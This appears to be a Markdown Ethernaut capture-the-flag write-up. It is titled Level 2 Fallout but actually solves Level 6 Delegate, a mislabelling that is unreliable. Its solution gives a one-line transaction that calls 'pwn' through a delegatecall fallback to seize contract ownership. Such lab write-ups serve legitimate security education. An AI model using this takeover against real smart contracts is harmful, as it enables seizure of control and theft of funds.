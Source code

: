 <div align="center">

<img src="../assets/levels/2-fallout.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 2 - Fallout</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Level 6 - Delegate](#level-6---delegate)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/2-fallout-requirements.webp" width="800px"/>

## The hack

## Level 6 - Delegate

Requires taking advantage of the delegate call being used in the Delegation contract

## Solution

This is the fallback function in the Delegation contract

```
fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
```

`delegate` is the contract we need to take control of,
Hence here we do

```
contract.sendTransaction({data: web3.utils.keccak256("pwn")})
```

Thus calling the `Delegation` contract's fallback which delegates to the `Delegate` contract, calling its `pwn` function, making us the owner.

## Takeaway

Usage of delegate call(libs and proxies) and its importance to get right - parity hack explored the incorrect use of delegate call

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
